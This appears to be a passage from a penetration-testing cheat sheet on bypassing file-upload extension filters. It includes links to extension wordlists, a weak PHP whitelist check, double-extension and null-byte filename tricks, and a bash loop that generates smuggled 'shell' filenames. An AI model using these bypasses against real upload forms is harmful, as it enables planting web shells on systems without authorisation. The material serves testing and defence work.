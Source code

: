 
##### Backend blacklist extension filtering

[Extension Wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/web-extensions.txt)
[PHP Extensions](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/refs/heads/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
[.NET Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

##### Backend whitelist extension filtering

Using double extensions (e.g. `shell.jpg.php`)
or Reverse double extensions (e.g. `shell.php.jpg`)

Filter example
```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

##### Character Injection

Character Injection List (e.g. shell.php%00.jpg)
- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Injection permutation script example
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> ext_wordlist.txt
        echo "shell$ext$char.jpg" >> ext_wordlist.txt
        echo "shell.jpg$char$ext" >> ext_wordlist.txt
        echo "shell.jpg$ext$char" >> ext_wordlist.txt
    done
done
```

